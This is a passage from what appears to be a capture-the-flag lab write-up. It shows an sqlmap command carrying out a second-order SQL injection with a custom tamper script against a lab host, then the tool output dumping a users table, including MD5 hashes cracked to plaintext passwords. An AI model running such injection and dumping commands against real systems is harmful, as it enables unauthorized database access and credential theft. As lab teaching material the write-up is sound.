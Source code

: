 

    root@kali# sqlmap --technique=U -r login.request --dbms mysql --tamper tamper-nightmare.py --second-order 'http://10.10.10.66/notes.php' -p user --proxy http://127.0.0.1:8080 --dump -D notes -T users --where "username NOT LIKE 'aaaaa%'" --no-cast



Next, we'll look at the users table, and we'll try to defeat username
that start with 'aaaaa' from our search, since we added those, with the
`--where` flag:



    root@kali# sqlmap --technique=U -r login.request --dbms mysql --tamper tamper-nightmare.py --second-order 'http://10.10.10.66/notes.php' -p user --proxy http://127.0.0.1:8080 --dump -D notes -T users --where "username NOT LIKE 'aaaaa%'" --no-cast
    ...
    [06:54:50] [INFO] fetching columns for table 'users' in database 'notes'
    [06:54:50] [INFO] used SQL query returns 3 entries
    [06:54:50] [INFO] resumed: "id","int(4) unsigned"
    [06:54:50] [INFO] resumed: "username","varchar(255)"
    [06:54:50] [INFO] resumed: "password","varchar(32)"
    [06:54:50] [INFO] fetching entries for table 'users' in database 'notes'
    [06:54:51] [WARNING] reflective value(s) found and filtering out
    [06:54:51] [INFO] used SQL query returns 2 entries
    [06:54:52] [INFO] retrieved: "1","ee10c315eba2c75b403ea99136f5b48d","admin"
    [06:54:53] [INFO] retrieved: "67","c11200b1c60d38eded1effbca7653675","delfy"
    [06:54:53] [INFO] recognized possible password hashes in column 'password'
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
    do you want to crack them via a dictionary-based attack? [Y/n/q] y
    [06:55:02] [INFO] using hash method 'md5_generic_passwd'
    what dictionary do you want to use?
    [1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
    [2] custom dictionary file
    [3] file with list of dictionary files
    > 1
    [06:55:07] [INFO] using default dictionary
    do you want to use common password suffixes? (slow!) [y/N]
    [06:55:09] [INFO] starting dictionary-based cracking (md5_generic_passwd)
    [06:55:09] [INFO] starting 4 processes
    [06:55:12] [INFO] cracked password 'nofear' for user 'delfy'
    [06:55:12] [INFO] cracked password 'nimda' for user 'admin'
    Database: notes
    Table: users
    [2 entries]
    +----+----------+-------------------------------------------+
    | id | username | password                                  |
    +----+----------+-------------------------------------------+
    | 1  | admin    | ee10c315eba2c75b403ea99136f5b48d (nimda)  |
    | 67 | delfy    | c11200b1c60d38eded1effbca7653675 (nofear) |
    +----+----------+-------------------------------------------+
